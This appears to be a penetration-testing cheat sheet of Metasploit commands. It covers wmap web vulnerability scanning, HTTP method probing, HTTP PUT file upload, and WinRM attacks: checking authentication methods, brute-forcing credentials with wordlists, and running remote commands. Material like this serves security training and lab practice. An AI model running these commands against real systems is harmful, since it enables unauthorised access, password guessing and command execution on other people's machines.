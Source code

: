 `load wmap`: To load the plugin
`wmap_sites -a <IP>`: Is can be used to add a site.
`wmap_sites -l`: Is used to list out all the available sites.
`wmap_targets -t <URL>`: Is used to add a target URL.
`wmap_targets -l`: Is used to list out all the targets that are available.
`wmap_run -t`: This will show all enabled modules.
`wmap_run -e`: This will start running the vuln. scan.
`wmap_vuln -l`: This lists all the vulnerabilities that the scan was able to find.

```msfconsole
use auxiliary/http/options
show options
set RHOSTS <ip-address>
run
```

> This module tells us if the web-application allows different methods like `GET`, `HEAD`, `POST`, and `OPTIONS`.

```msfconsole
use auxiliary/http/http_put
show options
set RHOSTS <ip-address>
set PATH /<directory>/
run
```

> This can be used to upload a file on to the specified directory.

#### Exploiting WinRM-02

***DEFAULT PORT `5986`***

```msfconsole
search type:auxiliary winrm
use auxiliary/winrm/winrm_auth_methods
set RHOSTS <ip-address>
run
```

> This will tell that whether `WinRM` is running on the machine and if it running than what authentication methods are being used.

```msfconsole
use auxiliary/winrm/winrm_login
set RHOST <ip-address>
set USER_FILE /usr/share/metasploit-framework/data/wordlists/common_users.txt
Set PASS_FILE /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt
run
```

> This can be used to brute force usernames and their respective passwords.

```msfconsole
use auxiliary/winrm/winrm_cmd
set RHOST <ip-address>
set USERNAME <user>
set PASSWORD <pass>
set CMD whoami
run
```
